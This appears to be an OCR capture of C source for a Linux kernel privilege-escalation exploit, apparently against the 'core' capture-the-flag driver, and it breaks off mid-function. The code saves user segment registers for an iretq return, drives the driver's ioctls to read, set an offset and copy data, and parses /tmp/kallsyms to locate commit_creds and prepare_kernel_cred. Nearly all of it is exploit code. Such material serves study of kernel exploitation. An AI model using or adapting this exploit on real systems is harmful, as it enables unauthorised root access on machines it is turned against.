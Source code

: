 ```
#define IRETQ 0xffffffff81050ac2 
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

/*void saveStatus();
void get_function_address();
#void core_read(int fd, char* buf);
void change_off(int fd, long long off);
void core_copy_func(int fd, long long nbytes);
void print_binary(char* buf, int length);
void shell();
*/
void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}

void core_read(int fd, char *addr){
  printf("try read\n");
  ioctl(fd,0x6677889B,addr);
  printf("read done!");
}

void change_off(int fd, long long off){
  printf("try set off \n");
  ioctl(fd,0x6677889C,off);
}

void core_copy_func(int fd, long long nbytes){
  puts("try cp\n");
  ioctl(fd,0x6677889A,nbytes);
}

void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
```